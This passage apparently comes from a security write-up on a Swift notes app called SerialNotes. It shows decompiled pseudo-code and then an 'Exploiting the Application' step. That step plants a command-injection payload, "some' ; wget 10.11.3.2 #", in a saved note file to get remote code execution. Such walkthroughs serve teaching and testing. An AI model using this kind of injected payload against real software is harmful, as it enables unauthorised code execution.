 ```c
                    [r21 release];
            }
            else {
                    r20 = 0x0;
                    r26 = 0x0;
            }
            r0 = swift_isUniquelyReferenced_nonNull_native(r24);
            if ((r0 & 0x1) == 0x0) {
                    r1 = *(r24 + 0x10) + 0x1;
                    r0 = generic specialization <SerialNotes.JsonNote> of Swift._ArrayBuffer._consumeAndCreateNew(0x0, r1, 0x1, r24);
                    r24 = r0;
            }
            r25 = *(int128_t *)(r24 + 0x10);
            r8 = *(int128_t *)(r24 + 0x18);
            r21 = r25 + 0x1;
            if (r25 >= r8 / 0x2) {
                    if (r8 > 0x1) {
                            if (CPU_FLAGS & A) {
                                    r0 = 0x1;
                            }
                    }
                    r1 = r21;
                    r24 = generic specialization <SerialNotes.JsonNote> of Swift._ArrayBuffer._consumeAndCreateNew(r0, r1, 0x1, r24);
            }
            r27 = r27 + 0x1;
            *(r24 + 0x10) = r21;
            *(int128_t *)(0x20 + r24 + r25 * 0x40) = var_C8;
            *(int128_t *)(0x28 + r24 + r25 * 0x40) = var_D0;
            *(int128_t *)(0x30 + r24 + r25 * 0x40) = var_D8;
            *(int128_t *)(0x38 + r24 + r25 * 0x40) = var_E0;
            *(int128_t *)(0x40 + r24 + r25 * 0x40) = r28;
            *(int128_t *)(0x48 + r24 + r25 * 0x40) = r23;
            *(int128_t *)(0x50 + r24 + r25 * 0x40) = r20;
            *(int128_t *)(0x58 + r24 + r25 * 0x40) = r26;
            [r19 release];
            swift_bridgeObjectRelease(r22);
            r20 = stack[-248];
    } while (var_F0 != r27);
    goto loc_1000068f4;

...
    goto loc_10000690c;
}
```

### Exploiting the Application

All that's left is to test our hypothesis and see if we can exploit this command injection vulnerability to achieve remote code execution. We'll modify the file generated when saving a note. Let's change the value from the output of the `uname -a` command to our payload: `some' ; wget 10.11.3.2 #`.
